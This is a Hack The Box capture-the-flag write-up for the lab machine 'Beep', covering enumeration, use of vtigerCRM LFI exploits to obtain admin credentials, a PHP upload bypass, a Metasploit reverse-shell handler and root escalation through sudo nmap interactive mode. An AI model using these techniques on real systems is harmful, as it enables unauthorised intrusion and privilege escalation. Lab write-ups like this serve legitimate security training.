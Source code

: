 ```yaml
---
layout: post
title: Beep(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.7

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.7</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-03 04:36 EST
<br>Nmap scan report for 10.10.10.7
<br>Host is up (0.16s latency).
<br>Not shown: 988 closed ports
<br>PORT      STATE SERVICE    VERSION
<br><font color="BB69EC">22/tcp</font>    open  <font color="53E100">ssh</font>         OpenSSH 4.3 (protocol 2.0)
<br>| ssh-hostkey: 
<br>|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
<br>|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
<br><font color="BB69EC">25/tcp</font>    open  <font color="53E100">smtp</font>        Postfix smtpd
<br>|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
<br><font color="BB69EC">80/tcp</font>    open  <font color="53E100">http</font>        Apache httpd 2.2.3
<br>|_http-server-header: Apache/2.2.3 (CentOS)
<br>|_http-title: Did not follow redirect to https://10.10.10.7/
<br><font color="BB69EC">110/tcp</font>   open  <font color="53E100">pop3</font>        Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
<br><font color="BB69EC">111/tcp</font>   open  <font color="53E100">rpcbind</font>     2 (RPC #100000)
<br>| rpcinfo: 
<br>|   program version   port/proto  service
<br>|   100000  2            111/tcp  rpcbind
<br>|   100000  2            111/udp  rpcbind
<br>|   100024  1            742/udp  status
<br>|_  100024  1            745/tcp  status
<br><font color="BB69EC">143/tcp</font>   open  <font color="53E100">imap</font>       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
<br>|_imap-capabilities: Completed OK ATOMIC URLAUTHA0001 RIGHTS=kxte IMAP4rev1 THREAD=ORDEREDSUBJECT LITERAL+ ANNOTATEMORE LIST-SUBSCRIBED CONDSTORE UIDPLUS CATENATE BINARY MAILBOX-REFERRALS LISTEXT IDLE RENAME ID IMAP4 QUOTA X-NETSCAPE THREAD=REFERENCES SORT=MODSEQ SORT CHILDREN NAMESPACE MULTIAPPEND STARTTLS NO ACL UNSELECT
<br><font color="BB69EC">443/tcp</font>   open  <font color="53E100">ssl/http</font>   Apache httpd 2.2.3 ((CentOS))
<br>| http-robots.txt: 1 disallowed entry 
<br>|_/
<br>|_http-server-header: Apache/2.2.3 (CentOS)
<br>|_http-title: Elastix - Login page
<br>| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
<br>| Not valid before: 2017-04-07T08:22:08
<br>|_Not valid after:  2018-04-07T08:22:08
<br>|_ssl-date: 2018-03-03T09:21:37+00:00; -19m56s from scanner time.
<br><font color="BB69EC">993/tcp</font>   open  <font color="53E100">ssl/imap</font>   Cyrus imapd
<br>|_imap-capabilities: CAPABILITY
<br><font color="BB69EC">995/tcp</font>   open  <font color="53E100">pop3</font>Cyrus pop3d
<br><font color="BB69EC">3306/tcp</font>  open  <font color="53E100">mysql</font>      MySQL (unauthorized)
<br><font color="BB69EC">4445/tcp</font>  open  <font color="53E100">upnotifyp?</font>
<br><font color="BB69EC">10000/tcp</font> open  <font color="53E100">http</font>       MiniServ 1.570 (Webmin httpd)
<br>|_http-server-header: MiniServ/1.570
<br>|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
<br>OS:SCAN(V=7.50%E=4%D=3/3%OT=22%CT=1%CU=41868%PV=Y%DS=2%DC=T%G=Y%TM=5A9A6E1C
<br>OS:%P=i686-pc-linux-gnu)SEQ(SP=CB%GCD=2%ISR=CD%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=C
<br>OS:B%GCD=1%ISR=CC%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DN
<br>OS:NT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3
<br>OS:=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N
<br>OS:%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A
<br>OS:0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
<br>OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40
<br>OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
<br>OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y
<br>OS:%DFI=N%T=40%CD=S) </p>

<p>Network Distance: 2 hops
<br>Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com</p>

<p>Host script results:
<br>|_clock-skew: mean: -19m56s, deviation: 0s, median: -19m56s</p>

<p>TRACEROUTE (using port 199/tcp)
<br>HOP RTT       ADDRESS
<br>1   167.17 ms 10.10.14.1
<br>2   167.42 ms 10.10.10.7</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 390.20 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>

</div>
</font>

<br>**Web**:-
<br>On port 80 Elastix Service is running
![1](https://teckk2.github.io/assets/images/Beep/1.JPG)

<br>**Gobuster**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u https://10.10.10.7/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt </p>

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : https://10.10.10.7/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 200,204,301,302,307
<br>[+] Expanded     : true
<br>=====================================================
<br>https://10.10.10.7/help (Status: 301)
<br>https://10.10.10.7/modules (Status: 301)
<br>https://10.10.10.7/themes (Status: 301)
<br>https://10.10.10.7/lang (Status: 301)
<br>https://10.10.10.7/static (Status: 301)
<br>https://10.10.10.7/admin (Status: 301)
<br>https://10.10.10.7/images (Status: 301)
<br>https://10.10.10.7/var (Status: 301)
<br>https://10.10.10.7/mail (Status: 301)
<br>https://10.10.10.7/panel (Status: 301)
<br>https://10.10.10.7/libs (Status: 301)
<br>https://10.10.10.7/recordings (Status: 301)
<br>https://10.10.10.7/configs (Status: 301)
<br><font color="ffff00">https://10.10.10.7/vtigercrm</font> (Status: 301)
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>

</div>
</font>
.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u https://10.10.10.7/vtigercrm/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt </p>

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : https://10.10.10.7/vtigercrm/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 200,204,301,302,307
<br>[+] Expanded     : true
<br>=====================================================
<br>https://10.10.10.7/vtigercrm/test (Status: 301)
<br>https://10.10.10.7/vtigercrm/storage (Status: 301)
<br>https://10.10.10.7/vtigercrm/themes (Status: 301)
<br>https://10.10.10.7/vtigercrm/license (Status: 301)
<br>https://10.10.10.7/vtigercrm/modules (Status: 301)
<br>https://10.10.10.7/vtigercrm/database (Status: 301)
<br>https://10.10.10.7/vtigercrm/cache (Status: 301)
<br>https://10.10.10.7/vtigercrm/include (Status: 301)
<br>https://10.10.10.7/vtigercrm/packages (Status: 301)
<br>https://10.10.10.7/vtigercrm/Image (Status: 301)
<br>https://10.10.10.7/vtigercrm/backup (Status: 301)
<br>https://10.10.10.7/vtigercrm/data (Status: 301)
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>

</div>
</font>

<br>There is an interesting directory /vtigercrm for which we can look for
![2](https://teckk2.github.io/assets/images/Beep/2.JPG)
<br>After searching I found LFI exploits for [vtigerCRM](https://www.exploit-db.com/exploits/18770/), and [Vtiger login](https://www.exploit-db.com/exploits/37637/) which we can use to read user flag and get admin credentials.

**User Flag** :-
![3](https://teckk2.github.io/assets/images/Beep/3.JPG)
<br>The username is **fanis**
![4](https://teckk2.github.io/assets/images/Beep/4.JPG)
<br>Now using the second LFI exploit we can read the Admin credentials
![5](https://teckk2.github.io/assets/images/Beep/5.JPG)
<br>Now read lines one by one untill you find the correct password
![6](https://teckk2.github.io/assets/images/Beep/6.JPG)
<br>Username = **admin**
<br>Password = **jEhdIekWmdjE**
<br>Using this credential we can login to VtigerCRM dashboard as Admin
![7.1](https://teckk2.github.io/assets/images/Beep/7.1.JPG)

<br>**Shell**
<br>GO to Settings>Company Details> click on Edit and you will notice we can upload any image in place of company logo
<br> First Generate a php payload, Now to upload your php file in place for company logo we have to add **;.jpg** after **.php** to bypass browser image file upload restriction
![9](https://teckk2.github.io/assets/images/Beep/9.JPG)
<br>So first browse the file and select it after that click on save and capture the post request on burp
![10](https://teckk2.github.io/assets/images/Beep/10.JPG)
<br>Now edit it and remove the ;.jpg and forward the request
![11](https://teckk2.github.io/assets/images/Beep/11.JPG)
<br>make sure the file has been uploaded successfully
![12](https://teckk2.github.io/assets/images/Beep/12.JPG)
<br>Now set up the listner and go to the file location [https://10.10.10.7/vtigercrm/test/logo/beep.php](https://10.10.10.7/vtigercrm/test/logo/beep.php) and we will get the meterpreter shell.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf > use exploit/multi/handler 
<br>msf exploit(<font color="red">handler</font>) > set payload php/meterpreter/reverse_tcp
<br>payload => php/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">handler</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.14.10
<br>msf exploit(<font color="red">handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">handler</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (33986 bytes) to 10.10.10.7
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4455 -> 10.10.10.7:39251) at 2018-03-03 08:33:58 -0500</p>

<p>meterpreter > getuid
<br>Server username: asterisk (100)
<br>meterpreter > sysinfo 
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;: beep
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Linux beep 2.6.18-238.12.1.el5 #1 SMP Tue May 31 13:23:01 EDT 2011 i686
<br>Meterpreter&nbsp;: php/linux
<br>meterpreter > </p>

</div>
</font>

**Privilege Escalation**

<br>User asterisk have root access to nmap, and the nmap version is 4.11 which can give us root shell using nmap interactive mode.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>meterpreter > shell
<br>Process 6593 created.
<br>Channel 0 created.
<br>id
<br>uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
<br>python -c 'import pty;pty.spawn("/bin/bash")'
<br>bash-3.2$ sudo -l
<br>sudo -l
<br>Matching Defaults entries for asterisk on this host:
<br>&nbsp;&nbsp;&nbsp;&nbsp;env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
<br>&nbsp;&nbsp;&nbsp;&nbsp;LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
<br>&nbsp;&nbsp;&nbsp;&nbsp;LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
<br>&nbsp;&nbsp;&nbsp;&nbsp;LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
<br>&nbsp;&nbsp;&nbsp;&nbsp;XAUTHORITY"</p>

<p>User asterisk may run the following commands on this host:
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/shutdown
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/bin/nmap
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/bin/yum
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /bin/touch
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /bin/chmod
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /bin/chown
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/service
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/init
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/postmap
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/postfix
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/saslpasswd2
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/hardware_detector
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/chkconfig
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/elastix-helper
<br>bash-3.2$ cd /usr/bin/    
<br>cd /usr/bin/
<br>bash-3.2$ nmap -version
<br>nmap -version </p>

<p>Nmap version 4.11 ( http://www.insecure.org/nmap/ )
<br>bash-3.2$ sudo nmap --interactive
<br>sudo nmap --interactive </p>

<p>Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
<br>Welcome to Interactive Mode -- press h enter for help
<br>nmap> !sh
<br>!sh
<br>sh-3.2# id
<br>id
<br>uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
<br>sh-3.2# cd /root
<br>cd /root
<br>sh-3.2# cat root.txt
<br>cat root.txt
<br><font color="53E100">********************************</font>
<br>sh-3.2# </p>

</div>
</font>


<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>

